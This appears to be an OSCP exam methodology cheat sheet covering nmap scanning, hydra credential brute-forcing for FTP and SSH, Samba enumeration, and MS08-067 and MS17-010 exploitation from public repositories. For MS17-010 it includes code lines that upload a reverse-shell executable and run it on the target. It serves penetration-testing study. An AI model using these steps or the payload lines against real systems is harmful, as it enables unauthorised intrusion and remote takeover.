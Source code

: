# oscp_methodology
OSCP Methodology


## Blackbox
#### nmap full tcp port scan
* nmap <ip> -sV -sC -O -T4 --traceroute -p - -oA ~/path/filename

#### Ftp
* service -> exploit
* banner
* default creds (hydra)
* default creds with nsr (hydra)
* Anonymous login
* nmap info

#### SSH
* service -> exploit
* banner
* default creds (hydra)
* default creds with nsr (hydra)
* nmap info

#### Samba
* nmap info:
  * OS samba
  * Computer name/NetBIOS name
  * Domain name
  * Workgroup
  * OS of machine

* service (OS samba or nmap service header (139 & 445)) -> exploit
* nmap -sV -sC --open -T4  -p 139,445 --script=vuln --script-args=unsafe=1 <ip>
* enum4linux
* smbclient
 

## Exploits
### Windows
#### MS08-067
git clone https://github.com/andyacer/ms08_067.git
* configuration
  * pip install impacket
* 2 reverse options for shellcoding:
  * Use the third with 443
  * Use the third with default
  * Use second with default
  * Use second with port of third or another port
* Choose the right option of menu.
  * Find OS of machine
  * Guess lanhuage
* Needs listener

### Windows
#### MS17-010
git clone https://github.com/worawit/MS17-010.git
* zzz_exploit.py:
 * If needed USERNAME-"//"
 * next add the following 2 lines to below def smb
 
   '''
   smb_send_file(smbConn, '/root/htb/blue/puckieshell443.exe', 'C', '/puckieshell443.exe')
   service_exec(conn, r'cmd /c c:\\puckieshell443.exe')
   '''
 
